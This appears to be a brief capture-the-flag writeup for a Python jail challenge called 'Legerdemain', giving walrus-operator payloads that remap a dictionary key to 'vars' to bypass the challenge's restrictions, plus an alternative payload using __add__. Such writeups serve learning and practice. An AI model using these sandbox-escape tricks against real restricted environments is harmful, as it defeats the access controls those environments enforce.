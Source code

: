 # **Legerdemain** Writeup

We initialize our strings:

```python
(z:="debug list")
(w:="vars")
```

And we remake the dictionary but with ``debug list`` as a pointer pointing to ``vars``

```python
(p:={**p,z:p[w]})
```

> [!NOTE]
> If we were inside a function there would be a new **local** p redefined and our exploit would not work.
>
> Also if we could use ``_`` and ``.`` we could have used this shorter and (in my opinion) cooler exploit:
>
> ```python
> (z:="debug")
> (y:=z.__add__)
> y(" list")
> (w:="vars")
> (x:={z:p[w]})
> (p:={**p,**x})
> ```

Don't hesitate to share your exploits!

